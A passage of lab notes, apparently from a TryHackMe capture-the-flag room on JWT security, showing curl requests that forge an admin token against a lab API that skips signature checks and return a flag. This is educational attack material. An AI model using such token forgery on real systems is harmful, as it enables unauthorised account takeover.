 The second common mistake with JWTs is not correctly verifying the signature. If the signature isn't correctly verified, a threat actor may be able to forge a valid JWT token to gain access to another user's account. Let's examine the common signature verification issues.

Not Verifying the Signature

The first issue with signature validation is when there is no signature validation. If the server does not verify the signature of the JWT, then it is possible to modify the claims in the JWT to whatever you prefer them to be. While it is uncommon to find APIs where no signature validation is performed, signature validation may have been omitted from a single endpoint within the API. Depending on the sensitivity of the endpoint, this can have a significant business impact.

**Practical Example 2**  

Let's authenticate to the API:

```json
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.131.92/api/v1.0/example2
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4"
}
```


Once authenticated, let's verify our user:

```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' "http://10.10.131.92/api/v1.0/example2?username=user"

{
  "message": "Welcome user, you are not an admin"
}
```

However, let's try to verify our user without the signature, remove the third part of the JWT (leaving only the dot) and make the request again. You will see that the verification still works! This means that the signature is not being verified. Modify the admin claim in the payload to be `1` and try to verify as the admin user to retrieve your flag.  

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250503151554.png)


```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.QDbJj7L9iz9m8bWmiN3_Ujt7Q8Gm8VNlMW0fgqu0mdc' "http://10.10.131.92/api/v1.0/example2?username=admin"

{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```

**The Development Mistake**
